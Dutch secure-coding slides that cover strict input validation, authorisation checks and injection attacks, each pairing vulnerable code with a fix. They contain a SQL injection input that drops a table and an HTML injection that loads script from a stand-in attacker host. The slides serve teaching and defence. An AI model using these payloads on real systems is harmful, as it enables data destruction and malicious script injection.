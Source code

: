 ## User Input == Devil Input. Valideer zo strikt mogelijk.

Niet:
>"een naam mag geen slashes of pipe symbols bevatten"

Maar:
>"een naam mag alleen letters, cijfers of streepjes bevatten" <br>
(je kunt de eisen later altijd relaxen, strikter maken is lastiger)

---

# Security

## Check autorisatie op elke actie.

Anders is de voordeur gebarricadeerd, maar <br>
de achterdeur staat wagenwijd open.

---

# Security

## Injection attacks (1)

Die treden op als je strings met user input aan elkaar plakt zonder escaping toe te passen.

Kwetsbare code:
>`stmt = "SELECT * FROM person WHERE ID = " + devilInput;`

SQL injection:
>`devilInput == "1; DROP TABLE person"`

Correcte code:
>`stmt = prepare("SELECT * FROM person WHERE ID = ?");<br>
stmt.bind(1, devilInput);

---

# Security

## Injection attacks (2)

Kwetsbaar:
>`print("<p>Viewing person" + devilInput + "</p>");`

HTML injection:
>`devilInput == " Jan<script src="http://ha.xxx/evil.js"></script>"`

Correct:
>`print("<p>Viewing person" + htmlescape(devilInput) + "</p>");`

---